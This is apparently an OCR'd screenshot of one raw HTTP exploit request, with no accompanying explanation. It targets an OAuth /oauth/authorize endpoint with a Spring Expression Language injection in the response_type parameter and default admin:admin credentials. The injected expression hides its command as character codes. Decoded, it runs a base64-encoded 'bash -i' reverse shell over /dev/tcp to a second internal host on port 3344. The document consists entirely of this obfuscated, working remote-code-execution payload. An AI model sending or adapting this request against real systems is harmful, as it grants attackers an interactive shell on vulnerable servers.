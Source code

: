 ```python
GET /oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test HTTP/1.1
Host: 192.168.1.10:8080
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
